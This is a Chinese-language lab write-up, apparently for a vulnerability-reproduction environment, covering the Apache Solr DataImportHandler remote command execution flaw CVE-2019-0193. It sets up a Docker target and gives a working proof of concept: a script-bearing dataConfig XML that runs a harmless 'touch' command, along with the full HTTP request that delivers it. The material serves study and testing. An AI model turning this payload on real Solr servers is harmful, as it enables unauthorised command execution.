


# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 漏洞环境

运行漏洞环境：

```
docker compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

首先在页面左侧选择`demo`核心，打开Dataimport面板，开启右侧Debug mode，填入以下POC：

```
<dataConfig>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="sample"
            fileName=".*"
            baseDir="/"
            processor="FileListEntityProcessor"
            recursive="false"
            transformer="script:poc" />
  </document>
</dataConfig>
```



点击`Execute with this Confuguration`会发送以下请求包：

```
POST /solr/demo/dataimport?_=1708782956647&indent=on&wt=json HTTP/1.1
Host: your-ip:8983
Content-Length: 613
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-type: application/x-www-form-urlencoded
Origin: http://your-ip:8983
Referer: http://your-ip:8983/solr/
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

执行`docker compose exec solr ls /tmp`进入容器，可见`touch /tmp/success`已成功执行：


